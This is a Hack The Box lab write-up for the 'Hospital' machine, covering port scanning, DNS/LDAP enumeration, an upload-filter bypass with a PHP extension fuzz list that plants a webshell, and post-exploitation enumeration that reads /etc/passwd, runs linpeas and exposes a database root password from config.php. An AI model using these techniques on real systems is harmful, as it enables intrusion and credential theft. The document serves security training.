


- Machine : https://app.hackthebox.com/machines/Hospital/writeups
- Reference : https://0xdf.gitlab.io/2024/04/13/htb-hospital.html
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.241
Performing quick port scan on 10.10.11.241...
Found open ports: 22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6613,6634,8080,9389,21252
Performing detailed scan on 10.10.11.241...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 10:29 EST
Nmap scan report for 10.10.11.241
Host is up (0.13s latency).

PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-12-11 22:29:43Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp   open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp  open  msmq?
2103/tcp  open  msrpc             Microsoft Windows RPC
2105/tcp  open  msrpc             Microsoft Windows RPC
2107/tcp  open  msrpc             Microsoft Windows RPC
2179/tcp  open  vmrdp?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp  open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-11T22:30:42+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-12-10T22:16:05
|_Not valid after:  2025-06-11T22:16:05
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6404/tcp  open  msrpc             Microsoft Windows RPC
6406/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp  open  msrpc             Microsoft Windows RPC
6409/tcp  open  msrpc             Microsoft Windows RPC
6613/tcp  open  msrpc             Microsoft Windows RPC
6634/tcp  open  msrpc             Microsoft Windows RPC
8080/tcp  open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
9389/tcp  open  mc-nmf            .NET Message Framing
21252/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-11T22:30:40
|_  start_date: N/A
|_clock-skew: mean: 7h00m11s, deviation: 0s, median: 7h00m11s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.25 seconds
```

- Many ports are open..
- Given the Kerberos(88) port open, I can guess that the target is Active Directory DC.
- Domain name is `hospital.htb`. Let's add this in `/etc/hosts`.
- It has many open ports, so I need to enumerate all of them carefully.

### DNS(53)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ dig any @10.10.11.241 hospital.htb

; <<>> DiG 9.20.0-Debian <<>> any @10.10.11.241 hospital.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 9612
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 5

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;hospital.htb.                  IN      ANY

;; ANSWER SECTION:
hospital.htb.           600     IN      A       10.10.11.241
hospital.htb.           600     IN      A       192.168.5.1
hospital.htb.           3600    IN      NS      dc.hospital.htb.
hospital.htb.           3600    IN      SOA     dc.hospital.htb. hostmaster.hospital.htb. 503 900 600 86400 3600
hospital.htb.           600     IN      AAAA    dead:beef::f783:c785:4fd9:2773
hospital.htb.           600     IN      AAAA    dead:beef::236

;; ADDITIONAL SECTION:
dc.hospital.htb.        3600    IN      A       192.168.5.1
dc.hospital.htb.        3600    IN      A       10.10.11.241
dc.hospital.htb.        3600    IN      AAAA    dead:beef::236
dc.hospital.htb.        3600    IN      AAAA    dead:beef::f783:c785:4fd9:2773

;; Query time: 128 msec
;; SERVER: 10.10.11.241#53(10.10.11.241) (TCP)
;; WHEN: Wed Dec 11 12:08:04 EST 2024
;; MSG SIZE  rcvd: 281

      
┌──(kali㉿kali)-[~/htb]
└─$ dig axfr @10.10.11.241 hospital.htb

; <<>> DiG 9.20.0-Debian <<>> axfr @10.10.11.241 hospital.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

### ldap(389)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -H ldap://10.10.11.241 -x -b "DC=HOSPITAL,DC=HTB" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -H ldap://10.10.11.241 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### https(443)


It's a "Hospital Webmail" page.

```php
/*
        @licstart  The following is the entire license notice for the 
        JavaScript code in this page.

        Copyright (C) The Roundcube Dev Team

        The JavaScript code in this page is free software: you can redistribute
        it and/or modify it under the terms of the GNU General Public License
        as published by the Free Software Foundation, either version 3 of
        the License, or (at your option) any later version.

        The code is distributed WITHOUT ANY WARRANTY; without even the implied
        warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
        See the GNU GPL for more details.

        @licend  The above is the entire license notice
        for the JavaScript code in this page.
*/
var rcmail = new rcube_webmail();
rcmail.set_env({"task":"login","standard_windows":false,"locale":"en_US","devel_mode":null,"rcversion":10604,"cookie_domain":"","cookie_path":"/","cookie_secure":true,"dark_mode_support":true,"skin":"elastic","blankpage":"skins/elastic/watermark.html","refresh_interval":60,"session_lifetime":600,"action":"login","comm_path":"/?_task=login","compose_extwin":false,"date_format":"yy-mm-dd","date_format_localized":"YYYY-MM-DD","request_token":"iAneVxmXQB44Mpl2ab9DI0ruHXepOSFw"});
rcmail.add_label({"loading":"Loading...","servererror":"Server Error!","connerror":"Connection Error (Failed to reach the server)!","requesttimedout":"Request timed out","refreshing":"Refreshing...","windowopenerror":"The popup window was blocked!","uploadingmany":"Uploading files...","uploading":"Uploading file...","close":"Close","save":"Save","cancel":"Cancel","alerttitle":"Attention","confirmationtitle":"Are you sure...","delete":"Delete","continue":"Continue","ok":"OK","back":"Back","errortitle":"An error occurred!","options":"Options","plaintoggle":"Plain text","htmltoggle":"HTML","previous":"Previous","next":"Next","select":"Select","browse":"Browse","choosefile":"Choose file...","choosefiles":"Choose files..."});
rcmail.display_message("Invalid request! No data was saved.","warning",0);
rcmail.gui_container("loginfooter","login-footer");rcmail.gui_object('loginform', 'login-form');
rcmail.gui_object('message', 'messagestack');
</script>
```

From its source code, we can find that `RoundCube`,  `rcube_webmail`.
I think it's a name of the software running behind.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ searchsploit roundcube
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- ---------------------------------
Roundcube 1.2.2 - Remote Code Execution                          | php/webapps/40892.txt
Roundcube rcfilters plugin 2.1.6 - Cross-Site Scripting          | linux/webapps/45437.txt
Roundcube Webmail - Multiple Vulnerabilities                     | php/webapps/11036.txt
Roundcube Webmail 0.1 - 'index.php' Cross-Site Scripting         | php/webapps/28988.txt
Roundcube Webmail 0.1 - CSS Expression Input Validation          | php/webapps/30877.txt
Roundcube Webmail 0.2 - Cross-Site Scripting                     | php/webapps/33473.txt
Roundcube Webmail 0.2-3 Beta - Code Execution                    | php/webapps/7549.txt
Roundcube Webmail 0.2b - Remote Code Execution                   | php/webapps/7553.sh
Roundcube Webmail 0.3.1 - Cross-Site Request Forgery / SQL Injec | php/webapps/17957.txt
Roundcube Webmail 0.8.0 - Persistent Cross-Site Scripting        | php/webapps/20549.py
Roundcube Webmail 1.1.3 - Directory Traversal                    | php/webapps/39245.txt
Roundcube Webmail 1.2 - File Disclosure                          | php/webapps/49510.py
----------------------------------------------------------------- ---------------------------------
```

There's no clearly useful exploit existing without credential for now.
Let's revisit it later..
Then, let's move on to another webserver on port 8080.

### http(8080)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://hospital.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hospital.htb:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://hospital.htb:8080/images/]          
/uploads              (Status: 301) [Size: 321] [--> http://hospital.htb:8080/uploads/]     
/css                  (Status: 301) [Size: 317] [--> http://hospital.htb:8080/css/]        
/js                   (Status: 301) [Size: 316] [--> http://hospital.htb:8080/js/]       
/vendor               (Status: 301) [Size: 320] [--> http://hospital.htb:8080/vendor/]   
```

Several pages found, but none of them are useful. `/uploads`, `/vendor` don't exist.
Let's visit the main page.


Another web page is running.
Based on extension of the index file, I can guess that the server is running on `php`.
It allows creating account. Let's try it.


I sign in with created account. After sign-in, I can see upload page.

# Webshell as `www-data`

### Upload php webshell


When I click `upload` button, it looks like it's accepting only Image files.
Let's upload `logo.php` file that I just got from the web page.


Since I found `/uploads` directory with `gobuster`, let me try to find if the uploaded file exists in `/uploads` directory.
If I can upload `php` file on this directory, hopefully I can open a reverse shell.
However, it doesn't allow uploading `php` file directly.
I tried to fuzz with php extensions list as follows;

```
.jpeg.php
.jpg.php
.png.php
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phar
.phpt
.pgif
.phtml
.phtm
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
```

Among these, `.phar` worked, and I could get a webshell.
For the webshell, I used `wwwolf-php-webshell` from the following;
https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php




# Shell as `drwilliams`

### Enumeration

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:106::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:101:1::/var/cache/pollinate:/bin/false
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
syslog:x:103:109::/nonexistent:/usr/sbin/nologin
uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
```

There is a single non-root user : `drwilliams`

```vbnet
sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
```

`sudo` command is not allowed to current user.

```bash
find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/fusermount3
/usr/bin/umount
/usr/bin/sudo
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/libexec/polkit-agent-helper-1
<SNIP>
```

Let's run `linpeas`.

```bash
www-data@webserver:/tmp$ ./linpeas_linux_amd64


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                         
[+] [CVE-2022-2586] nft_object UAF                                         

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154


╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                         
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -      


╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                      
-rwsr-xr-x 1 root root 323K Aug 24  2023 /usr/lib/openssh/ssh-keysign      
-rwsr-xr-x 1 root root 144K May 29  2023 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)    
-rwsr-xr-- 1 root messagebus 35K Dec  9  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                             
-rwsr-xr-x 1 root root 63K Nov 23  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 35K Mar 17  2023 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 35K Nov 28  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)                                                                     
-rwsr-xr-x 1 root root 264K Mar  1  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                                 
-rwsr-xr-x 1 root root 55K Nov 28  2022 /usr/bin/su
-rwsr-xr-x 1 root root 75K Nov 23  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40K Nov 23  2022 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 44K Nov 23  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 72K Nov 23  2022 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 47K Nov 28  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                           
-rwsr-xr-x 1 root root 19K Feb 26  2022 /usr/libexec/polkit-agent-helper-1
-rwsr-xr-x 1 root root 40K Jun 14  2022 /snap/core/16091/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8               
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/16091/bin/ping
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/16091/bin/ping6
-rwsr-xr-x 1 root root 40K Nov 29  2022 /snap/core/16091/bin/su
-rwsr-xr-x 1 root root 27K Jun 14  2022 /snap/core/16091/bin/umount  --->  BSD/Linux(08-1996)                                                         
-rwsr-xr-x 1 root root 71K Nov 29  2022 /snap/core/16091/usr/bin/chfn  --->  SuSE_9.3/10                                                              
-rwsr-xr-x 1 root root 40K Nov 29  2022 /snap/core/16091/usr/bin/chsh
-rwsr-xr-x 1 root root 74K Nov 29  2022 /snap/core/16091/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Nov 29  2022 /snap/core/16091/usr/bin/newgrp  --->  HP-UX_10.20                                                            
-rwsr-xr-x 1 root root 53K Nov 29  2022 /snap/core/16091/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                           
-rwsr-xr-x 1 root root 134K May 24  2023 /snap/core/16091/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                 
-rwsr-xr-- 1 root kvm 42K Oct 26  2022 /snap/core/16091/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                    
-rwsr-xr-x 1 root root 419K Aug  8  2023 /snap/core/16091/usr/lib/openssh/ssh-keysign                                                                 
-rwsr-xr-x 1 root root 125K Aug 31  2023 /snap/core/16091/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)                                                               
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /snap/core/16091/usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)                                           
-rwsr-xr-x 1 root root 40K Jun 14  2022 /snap/core/15925/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8               
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/15925/bin/ping
-rwsr-xr-x 1 root root 44K May  7  2014 /snap/core/15925/bin/ping6
-rwsr-xr-x 1 root root 40K Nov 29  2022 /snap/core/15925/bin/su
-rwsr-xr-x 1 root root 27K Jun 14  2022 /snap/core/15925/bin/umount  --->  BSD/Linux(08-1996)                                                         
-rwsr-xr-x 1 root root 71K Nov 29  2022 /snap/core/15925/usr/bin/chfn  --->  SuSE_9.3/10                                                              
-rwsr-xr-x 1 root root 40K Nov 29  2022 /snap/core/15925/usr/bin/chsh
-rwsr-xr-x 1 root root 74K Nov 29  2022 /snap/core/15925/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Nov 29  2022 /snap/core/15925/usr/bin/newgrp  --->  HP-UX_10.20                                                            
-rwsr-xr-x 1 root root 53K Nov 29  2022 /snap/core/15925/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                           
-rwsr-xr-x 1 root root 134K May 24  2023 /snap/core/15925/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                 
-rwsr-xr-- 1 root kvm 42K Oct 26  2022 /snap/core/15925/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                    
-rwsr-xr-x 1 root root 419K Jul 28  2023 /snap/core/15925/usr/lib/openssh/ssh-keysign                                                                 
-rwsr-xr-x 1 root root 125K Aug  4  2023 /snap/core/15925/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)                                                               
-rwsr-xr-- 1 root dip 386K Jul 23  2020 /snap/core/15925/usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)                                           
-rwsr-xr-x 1 root root 72K Nov 24  2022 /snap/core22/864/usr/bin/chfn  --->  SuSE_9.3/10                                                              
-rwsr-xr-x 1 root root 44K Nov 24  2022 /snap/core22/864/usr/bin/chsh
-rwsr-xr-x 1 root root 71K Nov 24  2022 /snap/core22/864/usr/bin/gpasswd
-rwsr-xr-x 1 root root 47K Feb 21  2022 /snap/core22/864/usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8           
-rwsr-xr-x 1 root root 40K Nov 24  2022 /snap/core22/864/usr/bin/newgrp  --->  HP-UX_10.20                                                            
-rwsr-xr-x 1 root root 59K Nov 24  2022 /snap/core22/864/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                           
-rwsr-xr-x 1 root root 55K Feb 21  2022 /snap/core22/864/usr/bin/su
-rwsr-xr-x 1 root root 227K Apr  3  2023 /snap/core22/864/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                 
-rwsr-xr-x 1 root root 35K Feb 21  2022 /snap/core22/864/usr/bin/umount  --->  BSD/Linux(08-1996)                                                     
-rwsr-xr-- 1 root kvm 35K Oct 25  2022 /snap/core22/864/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                    
-rwsr-xr-x 1 root root 331K Jul 19  2023 /snap/core22/864/usr/lib/openssh/ssh-keysign                                                                 
-rwsr-xr-x 1 root root 72K Nov 24  2022 /snap/core22/607/usr/bin/chfn  --->  SuSE_9.3/10                                                              
-rwsr-xr-x 1 root root 44K Nov 24  2022 /snap/core22/607/usr/bin/chsh
-rwsr-xr-x 1 root root 71K Nov 24  2022 /snap/core22/607/usr/bin/gpasswd
-rwsr-xr-x 1 root root 47K Feb 21  2022 /snap/core22/607/usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8           
-rwsr-xr-x 1 root root 40K Nov 24  2022 /snap/core22/607/usr/bin/newgrp  --->  HP-UX_10.20                                                            
-rwsr-xr-x 1 root root 59K Nov 24  2022 /snap/core22/607/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                           
-rwsr-xr-x 1 root root 55K Feb 21  2022 /snap/core22/607/usr/bin/su
-rwsr-xr-x 1 root root 227K Mar  1  2023 /snap/core22/607/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable                                 
-rwsr-xr-x 1 root root 35K Feb 21  2022 /snap/core22/607/usr/bin/umount  --->  BSD/Linux(08-1996)                                                     
-rwsr-xr-- 1 root kvm 35K Oct 25  2022 /snap/core22/607/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                    
-rwsr-xr-x 1 root root 331K Nov 23  2022 /snap/core22/607/usr/lib/openssh/ssh-keysign                                                                 
-rwsr-xr-x 1 root root 129K Aug 25  2023 /snap/snapd/20092/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)                                                              
-rwsr-xr-x 1 root root 121K Feb 22  2023 /snap/snapd/18596/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304) 


╔══════════╣ Searching passwords in config PHP files
/var/www/html/config.php:define('DB_PASSWORD', 'my$qls3rv1c3!');           
/var/www/html/config.php:define('DB_USERNAME', 'root');
```

It finds many potential vulnerable vectors.
Furthermore, it reveals DB credential : `root` : `my$qls3rv1c3!`
